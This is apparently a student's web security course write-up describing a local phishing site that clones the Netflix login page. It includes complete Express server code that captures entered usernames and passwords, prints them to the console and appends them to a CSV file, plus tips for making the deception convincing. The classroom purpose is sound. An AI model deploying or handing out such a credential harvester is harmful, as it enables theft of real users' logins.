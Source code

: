 Joshua Murphy

CS 595 - Web Security

Assignment 7

<br> 

# Create a simple phishing site

For this step in the assignment, one of the sites from the list of 100
sites given for assignment 2 that has a login component will be used to 
create a phishing site hosted on a local server that stores the username and
password entered into the fake webpage into a file and prints the credentials
to the console.

For this assignment, I chose the Netflix login page to duplicate from my list
for 100 sites. First, I copied the html for the page and saved it to a file called
netflix.ejs. The html rather large, so I will not cover it in the readme section 
of this report. No major changes were made to the html itself. 

For the code on the server side of things, it was surprisingly pretty easy to 
get up and running. First, similarly to assignment 6, we are storing information,
in this case the username and password entered on the phishing site, to a csv
file, therefore we are using the function checkForFile() that takes in the 
path of the file, stored in the variable csv. If it does not exist, it creates
a csv file with the columns username and password printed onto the file. 
Next, there is a storeData() function that takes in the username, password, and path
of the csv file, removes the quotations and an extra backslash character when 
printing said character to the file, and proceeds to append the username 
and password to the file. Finally, the netflix.ejs page is render to the user, and 
then waits for a post request from the user to enter in to the userLoginId and 
password fields, which will be stored in the variables username and password. The
username and password are printed to the console log, then we run through the 
functions detailed earlier, specifically the checkForFile() and StoreData() functions, and then a new instance of the netflix.ejs is rendered back to the user 
to repeat the process. In a real world environment, we could probably render to 
the real netflix webpage with an alert that pings the user with aa message similar to 
"An error has occurred, please reenter credentials." or just hope that they are
still logged in to a previous session to keep up the appearance, but for this 
assignment I just have it render back to the phishing page.

    const bodyParser = require('body-parser')
    const express = require('express')
    const port = '4000'
    const app = express()
    const fs = require('fs')
    const { json } = require('express/lib/response')
    app.use(bodyParser.urlencoded({ extended: false }))
    app.use(bodyParser.json())
    var csv = 'log.csv'


    //Static Files
    app.use(express.static('public'))
    app.use('imgs', express.static(__dirname + 'public/imgs'))


    //Set Views
    app.set('views', './views')
    app.set('view engine', 'ejs')

    function checkForFile(path){
        if (!fs.existsSync(csv))
            fs.writeFileSync(path, 'Username,Password', json)
    }

    var storeData = (username, password, path) => {
        try {
            var str = JSON.stringify(username) + "," +
                    JSON.stringify(password)

                str = str.toString()
                str = str.replaceAll('""', '')
                str = str.replaceAll('\\\\', '\\')

            fs.appendFile(path, '\n' + str, function(err){
                if (err) throw err
            })
        } catch(err) {
            console.error(err)
        }
    }
    //Get pages
    app.route("/").get((req, res) => {
        res.render("netflix")
    }).post((req, res) => {
        username = req.body.userLoginId
        password = req.body.password
        console.log(`Username: ${username}`)
        console.log(`Password: ${password}`)
        checkForFile(csv)
        storeData(username, password, csv)
        res.render("netflix")
    })
    app.listen(port)

## Images

Phishing Login Page for Netflix

![phishing_page](images/phishing_page.png)


# References

1.) Assignment 7 markdown - https://github.com/phonedude/cs595-s22/blob/main/assignments/assignment-7.md